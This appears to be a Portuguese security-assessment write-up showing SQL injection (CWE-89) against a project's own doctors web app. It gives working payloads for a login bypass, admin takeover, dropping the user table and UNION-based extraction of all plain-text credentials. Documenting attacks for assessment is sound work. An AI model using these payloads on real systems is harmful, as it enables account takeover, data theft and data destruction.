






## CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
- https://cwe.mitre.org/data/definitions/89.html

**Ver descrição, score e solução no [report.md](../report.md#cwe-89-improper-neutralization-of-special-elements-used-in-an-sql-command-sql-injection).**

---
# Exploração da vulnerabilidade

## Ataque: login sem credenciais válidas

### Passo 1
Aceder à página de login e inserir um email existente e no campo 'Password' o seguinte excerto de código SQL:
```sql
' or 1=1 ) -- //
```



### Passo 2
Submeter o formulário de login.


### Resultado
É executado o seguinte comando SQL:
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' ) AND ( password_ = '' OR 1=1 ) -- // ) "
```
equivalente a
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' ) AND 1
```
equivalente a
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' )
```

O atacante entra na conta, mesmo desconhecendo a password da vítima.

<br>

## Ataque: login na conta do administrador
### Conhecimento prévio 
O atacante sabe que é provável que o utilizador com id = 1 seja um administrador do sistema.

### Passo 1
Aceder à página de login e inserir um email existente e, no campo 'Password', o seguinte excerto de código SQL:
```sql
') or 1=1 -- //
```

### Passo 2
Submeter o formulário de login.

### Resultado
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' ) AND ( password_ = '') OR 1=1 -- // ) "
```
equivalente a
```sql
SELECT * FROM app_user WHERE 1
```
equivalente a
```sql
SELECT * FROM app_user
```



O atacante entra na conta do primeiro utilizador registado na tabela 'app_user' (correspondente ao **admin**), mesmo desconhecendo a sua password.

No caso, a conta do admin tem acesso a uma página de administração, que permite fazer *queries* à base de dados.

O atacante consegue aceder e modificar o conteúdo da base de dados.

<br>

## Ataque: apagar a tabela com os utilizadores
### Conhecimento prévio
O atacante sabe que a tabela 'app_user' pode conter os utilizadores registados no sistema.

Esse nome é o predefinido por algumas aplicações web, por exemplo, as que sdesenvolvidas em Django (outra framework web Python).

### Passo 1
Aceder à página de registo de um utilizador (não doutor) e inserir num dos campos o seguinte excerto de código SQL:
```sql
'); DROP TABLE app_user; -- //
```

>**Nota**: A ordem das colunas no INSERT não é conhecida, pelo que o atacante deve testar os vários campos, até conseguir a SQL injection. Neste caso concreto, funcionaria no campo 'First Name'/'Last Name'.

### Passo 2
Submeter o formulário de registo.



### Resultado
É executado o seguinte comando SQL:
```sql
INSERT INTO app_user (email, password_, name_) VALUES ('random@random.com', 'Random1234', ''); DROP TABLE app_user; -- //
```
equivalente a
```sql
DROP TABLE app_user;
```



Os utilizadores não conseguem autenticar-se no sistema e aqueles que têm uma sessão iniciada não têm acesso a algumas funcionalidades, nomeadamente a listagem dos doutores (vale recordar que esses também são utilizadores).

<br>

## Ataque: visualizar a tabela com utilizadores/doutores, desconhecendo o nome da mesma

### Passo 1
Aceder à página *Doctors* e inserir no campo de pesquisa o seguinte excerto de código SQL:
```sql
1' AND 1=2 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table' -- //
```

### Passo 2
Submeter o formulário de pesquisa.

### Resultado intermédio
É executado o seguinte comando SQL:
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE app_user.name_ LIKE '%1' AND 1=2 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table' -- //%'
```
equivalente a
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE 0 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table'
```
equivalente a
```sql
SELECT sql,1,1 FROM sqlite_master WHERE type='table'
```
O atacante fica a conhecer o nome das tabelas da base de dados.



### Passo 3
Inserir no mesmo campo de pesquisa o seguinte excerto de código SQL:
```sql
1' AND 1=2 UNION SELECT name_, email, password_ FROM app_user -- //
```

### Passo 4
Submeter novamente o formulário de pesquisa.

### Resultado
É executado o seguinte comando SQL:
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE app_user.name_ LIKE '%1' AND 1=2 UNION SELECT name_, email, password_ FROM app_user -- //%'
```
equivalente a
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE 0 UNION SELECT name_, email, password_ FROM app_user
```
equivalente a
```sql
SELECT name_, email, password_ FROM app_user
```



O atacante fica a conhecer as credenciais de todos utilizadores, incluindo o admin e os doutores. Como as passwords estão em [*plain text*](CWE-257.md), consegue apoderar-se de qualquer conta.
